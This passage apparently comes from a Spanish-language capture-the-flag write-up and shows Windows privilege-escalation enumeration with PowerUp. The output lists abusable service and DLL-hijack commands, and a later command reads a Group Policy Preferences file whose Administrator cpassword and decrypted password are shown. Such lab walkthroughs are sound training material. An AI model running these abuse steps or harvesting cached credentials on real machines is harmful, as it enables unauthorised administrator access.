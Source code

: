 ```bash
PS C:\Users\mssql-svc\Desktop> Invoke-AllChecks


Privilege   : SeImpersonatePrivilege
Attributes  : SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
TokenHandle : 780
ProcessId   : 4268
Name        : 4268
Check       : Process Token Privileges

ServiceName   : UsoSvc
Path          : C:\Windows\system32\svchost.exe -k netsvcs -p
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'UsoSvc'
CanRestart    : True
Name          : UsoSvc
Check         : Modifiable Services

ModifiablePath    : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
IdentityReference : QUERIER\mssql-svc
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
%PATH%            : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
Name              : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
Check             : %PATH% .dll Hijacks
AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'

UnattendPath : C:\Windows\Panther\Unattend.xml
Name         : C:\Windows\Panther\Unattend.xml
Check        : Unattended Install Files

Changed   : {2019-01-28 23:12:48}
UserNames : {Administrator}
NewName   : [BLANK]
Passwords : {MyUnclesAreMarioAndLuigi!!1!}
File      : C:\ProgramData\Microsoft\Group
            Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
Check     : Cached GPP Files
```

- La encontró aquí.

```bash
PS C:\Users\mssql-svc\Desktop> type "C:\ProgramData\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml"
<?xml version="1.0" encoding="UTF-8" ?><Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
<User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="Administrator" image="2" changed="2019-01-28 23:12:48" uid="{CD450F70-CDB8-4948-B908-F8D038C59B6C}" userContext="0" removePolicy="0" policyApplied="1">
<Properties action="U" newName="" fullName="" description="" cpassword="CiDUq6tbrBL1m/js9DmZNIydXpsE69WB9JrhwYRW9xywOz1/0W5VCUz8tBPXUkk9y80n4vw74KeUWc2+BeOVDQ" changeLogon="0" noChange="0" neverExpires="1" acctDisabled="0" userName="Administrator"></Properties></User></Groups>
PS C:\Users\mssql-svc\Desktop>
```
